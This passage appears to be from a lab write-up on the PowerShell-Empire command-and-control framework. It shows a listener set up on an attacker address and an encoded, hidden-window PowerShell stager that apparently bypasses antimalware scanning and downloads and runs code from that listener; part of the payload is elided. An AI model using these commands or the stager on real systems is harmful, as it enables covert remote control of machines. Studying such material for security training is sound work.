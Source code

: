 <span style="color: #2196f3;">PowerShell-Empire Client</span>.

_Starting the PowerShell-Empire client and connecting to the local server._

`sudo powershell-empire client`:
```
========================================================================================
 [Empire] Post-Exploitation Framework
========================================================================================
 [Version] 4.3.0 BC Security Fork | [Web] https://github.com/BC-SECURITY/Empire
========================================================================================
 [Starkiller] Multi-User GUI | [Web] https://github.com/BC-SECURITY/Starkiller
========================================================================================
 This build was released exclusively for Kali Linux | https://kali.org
========================================================================================

   _______   ___  ___   ______    __   ______        _______
  |   ____| |   \/   | |   _  \  |  | |   _  \      |   ____|
  |  |__    |  \  /  | |  |_)  | |  | |  |_)  |     |  |__
  |   __|   |  |\/|  | |   ___/  |  | |      /      |   __|
  |  |____  |  |  |  | |  |      |  | |  |\  \----. |  |____
  |_______| |__|  |__| | _|      |__| | _| `._____| |_______|


       396 modules currently loaded

       0 listeners currently active

       0 agents currently active

[*] Connected to localhost ←
```

_Creating an HTTP listener on the attacker's machine._

`uselistener http`, `options`, `set Host 10.10.4.4`, `set Port 8888`, `execute`:
```
[+] Listener http successfully started
```

_Confirming that the listener has been successfully created and is active._

`main`, `listeners`:

| ID | Name | Module | Listener Category | Created At                               | Enabled |
|----|------|--------|-------------------|------------------------------------------|---------|
| 1  | http | http   | client_server     | 2024-08-06 22:07:20 IST (39 seconds ago) | True    |

_Generating a stager payload to establish a connection back to the HTTP listener._

`usestager multi/launcher`, `options`, `set Listener http`, `execute`:
```
powershell -noP -sta -w 1 -enc  SQBGACgAJABQAFMAVgBFAHIAcwBpAG8ATgBUAGEAQgBMAGUALgBQAFMAVgBFAFIAcwBpAG8ATgAuAE0AYQBKAE8AUgAgAC0AZwBlACAAMwApAHsAJABSAEUAZgA9AFsAUgBFAEYAXQAuAEEAcwBTAEUAbQBiAGwAeQAuAEcARQB0AFQAeQBQAEUAKAAnAFMAeQBzAHQAZQBtAC4ATQBhAG4AYQBnAGUAbQBlAG4AdAAuAEEAdQB0AG8AbQBhAHQAaQBvAG4ALgBBAG0AcwBpACcAKwAnAFUAdABpAGwAcwAnACkAOwAkAFIAZQBGAC4ARwBFAFQARgBp

...

gBEAE8AVwBuAGwAbwBBAGQARABBAFQAQQAoACQAUwBlAFIAKwAkAHQAKQA7ACQAaQBWAD0AJABkAGEAdABhAFsAMAAuAC4AMwBdADsAJABEAEEAdABhAD0AJABEAGEAVABhAFsANAAuAC4AJABkAEEAdABBAC4ATABFAE4ARwBUAGgAXQA7AC0ASgBPAGkATgBbAEMAaABBAFIAWwBdAF0AKAAmACAAJABSACAAJABEAEEAVABhACAAKAAkAEkAVgArACQASwApACkAfABJAEUAWAA=
```
